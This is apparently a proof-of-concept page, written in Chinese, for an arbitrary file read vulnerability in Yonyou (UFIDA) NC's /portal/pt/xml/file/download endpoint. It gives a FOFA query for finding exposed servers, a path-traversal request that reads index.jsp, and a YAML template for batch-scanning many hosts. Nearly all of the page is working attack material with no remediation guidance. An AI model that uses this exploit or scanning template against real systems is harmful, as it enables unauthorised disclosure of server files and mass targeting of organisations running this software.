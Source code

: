 # 用友NC的download文件存在任意文件读取漏洞


## 用友NC的download文件存在任意文件读取漏洞


## fofa
```
app="用友-UFIDA-NC"
```

## poc
```
/portal/pt/xml/file/download?pageId=login&filename=..%5Cindex.jsp
```
![image](https://github.com/wy876/POC/assets/139549762/43853ad7-9323-4874-956c-25b5de054184)

## yaml 批量检测
```
id: yonyouNC_download_fileread
info:
  name: 用友NC_download文件读取
  author: mhb17
  severity: high
  description: description
  reference:
    - https://
  tags: fileread
requests:
  - raw:
      - |+
        GET /portal/pt/xml/file/download?pageId=login&filename=..%5Cindex.jsp HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
        Connection: close

    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - '200'
      - type: word
        part: body
        words:
          - "response.addHeader"

```

